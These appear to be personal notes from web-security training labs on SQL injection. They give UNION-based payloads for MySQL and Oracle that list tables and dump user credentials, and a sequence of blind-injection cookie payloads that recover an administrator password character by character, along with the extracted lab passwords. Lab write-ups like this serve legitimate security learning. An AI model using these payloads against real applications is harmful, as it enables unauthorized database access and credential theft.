 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz.

>Pets' union select table_name, null from all_tables--

Table name `USERS_YXUZFJ`

`Pets' union select COLUMN_NAME,null from all_tab_columns where table_name='USERS_YXUZFJ'--`
Columns:

```
PASSWORD_ODOKFU  
USERNAME_DZRUHS
```

```
administrator
b33a0q24met5szk298fj

carlos
yutk3v2n7a8tt6wco6n2

wiener
95ca28n08tuaahvqbeef
```

## Blind SQL injection with conditional responses

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) > 'm'--;

Welcome back!

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) = 'y'--;

First letter is `y`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),2,1) = '5'--;

Second character is `5`. Numbers come before letters in SUBSTRING() !

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),3,1) = 'l'--;

3rd character is `l`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),4,1) = '1'--;

4th characters is `1`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),5,1) = '0'--;

5th character is `0`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),6,1) = 'g'--;

6th character is `g`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and substring((SELECT password FROM users where username='administrator'),7,1) = 'm'--;

7th character is `m`

## Screw it, I'm brute forcing this

y5l10gmkw1je153vi5z
